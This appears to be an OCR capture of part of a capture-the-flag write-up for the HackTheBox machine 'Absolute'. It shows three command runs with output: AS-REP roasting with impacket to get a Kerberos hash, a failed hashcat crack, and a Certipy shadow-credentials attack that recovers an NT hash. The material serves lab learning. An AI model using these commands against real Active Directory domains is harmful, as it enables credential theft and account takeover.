 

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

$krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2ca18a29c04033580763$77a484878419c5a5a71b1d1204197173fbd011ffaf322e86dc534d4c4c2a3c3a25cffbedf6d1d5e4a5e0294a58312e67318aad22394a5d3a652197c1d0fb64caf5ff03ffdb2b009d1bc99afd13c0ade9163e9df684d7cdb3dcb75a03ea8fb3793d55c3c7a4f36d719427642943307f329e1b3d762dce28c0da958aed87982703ff81db0127648813bb26d5e72a397cd1dfaa824d829fea361f537253eba76b84c72d302a48bb84fa5a46d617f6fbe0a2e84050983958b551fdb7df8e457f809a9944638fb3d8bfa299474ca6e5360c3c80e9a114aca21640ff1459cb9b4b4404c9192a6fc6d573405cb40aad
```



```bash
❯ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2...b40aad
```



```bash
❯ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '998d522e-a045-2dd1-ca6a-d58050fda221'
[*] Adding Key Credential with device ID '998d522e-a045-2dd1-ca6a-d58050fda221' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '998d522e-a045-2dd1-ca6a-d58050fda221' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```


